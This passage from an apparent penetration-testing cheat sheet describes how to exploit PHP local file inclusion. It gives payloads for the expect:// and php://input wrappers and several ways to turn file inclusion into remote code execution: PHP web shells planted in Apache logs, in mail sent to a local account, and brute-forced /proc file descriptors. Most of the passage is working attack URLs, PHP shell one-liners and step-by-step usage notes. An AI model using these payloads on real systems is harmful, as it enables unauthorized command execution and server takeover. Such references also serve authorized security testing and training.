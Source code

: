 ### Wrapper expect://

Expect has to be activated. You can execute code using this.

```text
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### Wrapper input://

Specify your payload in the POST parameters

```text
http://example.com/index.php?page=php://input
POST DATA: <? system('id'); ?>
```

### Wrapper phar://

Check [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)

## LFI2RCE

### Via Apache log file

If the Apache server is vulnerable to LFI inside the include function you could try to access to _**/var/log/apache2/access.log**_, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and execute code using the "c" GET parameter.

Note that **if you use double quotes** for the shell instead of **simple quotes**, the double quotes will be modified for the string "_**quote;**_", **PHP will throw an error** there and **nothing else will be executed**.

This could also be done in other logs but b**e carefull,** the code inside the logs could be URL encoded and this could destroy the Shell. The header **authorisation "basic"** contains "user:password" in Base64 and it is decoded inside the logs. The PHPShell could be inserted insithe this header.

### Via Email

Send a mail to a internal account \(user@localhost\) containing `<?php echo system($_REQUEST["cmd"]); ?>` and access to the mail _**/var/mail/USER&cmd=whoami**_

### Via /proc/\*/fd/\*

1. Upload a lot of shells \(for example : 100\)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process \(can be bruteforced\) and $FD the filedescriptor \(can be bruteforced too\)

### Via /proc/self/environ
